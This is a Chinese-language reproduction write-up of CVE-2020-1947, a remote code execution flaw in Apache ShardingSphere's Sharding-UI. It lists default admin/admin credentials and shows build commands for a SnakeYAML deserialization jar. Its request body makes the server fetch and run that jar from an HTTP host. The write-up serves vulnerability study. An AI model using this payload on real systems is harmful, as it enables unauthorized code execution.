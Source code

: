 # （CVE-2020-1947）Apache ShardingSphere远程代码执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2820](https://www.zhihuifly.com/t/topic/2820)

# （CVE-2020-1947）Apache ShardingSphere远程代码执行漏洞

## 一、漏洞简介

## 二、漏洞影响

Apache ShardingSphere < 4.0.1

## 三、复现过程

Sharding-UI的默认密码为admin/admin

![image](img/147e7311c28fb049fe2cf3e71bb77142.png)

顺带一提，在`conf/application.properties`中存储了WEB端的端口和账号密码。

![image](img/bf565702c7f822801b9a05a45927c1d4.png)

### 安装Zookeeper

要想成功利用，需要先在Sharding-UI中添加一个注册中心，否则在后续利用中会提示`No activated registry center!`，所以需要搭建一个Zookeeper。 这里直接使用docker搭建Zookeeper，并且将2181端口映射出来到本地的2181端口。

```
docker pull zookeeper
docker run --privileged=true -d --name zookeeper --publish 2181:2181  -d zookeeper:latest 
```

### 配置registry-center

在Sharding-UI的registry-center模块配置Zookeeper的地址。

![image](img/30653ea188b55d648b7f60ee44a2c0b4.png)

成功连接即可。

![image](img/bcdbc80e07d3553feaa9e622d4aaa3ba.png)

### 生成payload

使用SnakeYAML反序列化小工具： https://github.com/ianxtianxt/yaml-payload 修改`src/artsploit/AwesomeScriptEngineFactory.java`文件，设置为弹出计算器。

![image](img/51bcc62473bcb95bd303645786163866.png)

编译生成jar包：

```
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ . 
```

然后使用python本地搭建HTTPServer，等待连接。

```
python -m SimpleHTTPServer 90 
```

### 代码执行

在web端的Rule Config——>Add Schema处加入YAML代码并提交。

![image](img/5ab144c9732d8a86f50d9a825045780d.png)

数据包正文：

```
{"name":"test","ruleConfiguration":"encryptors:\n    <encryptor-name>:\n      type: MD5\n      props:","dataSourceConfiguration":"!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://localhost:90/yaml-payload.jar\"]]]]"} 
```

发送即可成功弹出计算器。

![image](img/7d6239e52c07a74da31df063de235006.png)